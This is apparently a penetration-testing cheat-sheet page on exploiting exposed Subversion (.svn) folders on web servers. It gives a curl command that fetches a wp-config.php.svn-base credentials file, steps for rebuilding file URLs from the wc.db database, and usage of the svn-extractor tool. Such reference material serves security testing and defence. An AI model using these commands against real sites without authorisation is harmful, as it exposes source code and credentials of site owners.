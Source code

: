 # Subversion

## Summary

* [Examples](#examples)
* [Tools](#tools)
    * [svn-extractor](#svn-extractor)
* [References](#references)


## Examples

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database from http://server/path_to_vulnerable_site/.svn/wc.db
  ```powershell
  INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
  ```
2. Download interesting files
  * remove \$sha1\$ prefix
  * add .svn-base postfix
  * use first byte from hash as a subdirectory of the `pristine/` directory (`94` in this case)
  * create complete path, which will be: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`


## Tools

### svn-extractor

* [anantshri/svn-extractor](https://github.com/anantshri/svn-extractor) - Simple script to extract all web resources by means of .SVN folder exposed over network. 
    ```powershell
    python svn-extractor.py --url "url with .svn available"
    ```


## References

- [SVN Extractor for Web Pentesters - Anant Shrivastava - March 26, 2013](http://blog.anantshri.info/svn-extractor-for-web-pentesters/)